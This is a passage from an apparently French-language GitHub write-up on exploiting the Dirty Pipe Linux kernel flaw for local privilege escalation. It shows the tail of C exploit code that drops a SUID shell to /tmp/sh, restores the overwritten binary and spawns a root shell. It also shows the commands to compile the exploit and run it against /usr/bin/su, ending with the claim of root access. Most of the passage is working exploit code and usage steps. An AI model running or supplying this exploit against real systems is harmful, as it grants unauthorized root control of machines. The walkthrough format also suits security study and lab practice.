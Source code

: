 ```

	printf("[+] dropping suid shell..\n");
	system(path);

	printf("[+] restoring suid binary..\n");
	if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
	system("/tmp/sh");

	return EXIT_SUCCESS;
}
```
### Exploitation de la cible ci-dessous ;

Maintenant, il faut compiler et lancer l'exploit 

![Dirtypipe](https://user-images.githubusercontent.com/93042298/160809988-5909e9cb-276c-403a-8ad0-b3503199a51c.png)

```
gcc exploit.c -o exploit
```
Maintenant, nous avons juste besoin de SUID et nous devrions sourire avec root !!!

![2022-03-30_10-14](https://user-images.githubusercontent.com/93042298/160811903-0c98294d-72a0-4918-8089-f1ce58ade06a.png)

Maintenant, exécuter l'exploit

```
┌──(kali㉿kali)-[~]
└─$ ./exploit /usr/bin/su
```
![2022-03-30_10-17](https://user-images.githubusercontent.com/93042298/160816331-e1ac155e-2323-4542-939d-e9eba86944c0.png)


Maintemant,Nous sommes root

Greeting From [Sergio](https://twitter.com/x0sergi)

<br> <br>
[Back To Home](../index.md)
<br>




